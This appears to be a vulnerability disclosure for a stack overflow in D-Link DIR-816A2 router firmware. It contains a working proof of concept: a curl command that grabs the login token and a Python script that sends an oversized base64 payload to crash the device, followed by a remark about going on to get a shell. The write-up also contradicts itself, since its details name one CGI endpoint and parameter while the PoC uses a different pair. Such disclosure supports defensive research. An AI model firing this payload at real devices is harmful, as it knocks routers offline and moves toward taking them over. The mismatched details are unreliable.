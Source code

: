# DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WlanBasicSetup.cgi.  With the setSecurity function,the contents obtained by the wizardstep4_pskpwd parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V17 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2RepeaterStep2.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '4',
    'pskValue': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell

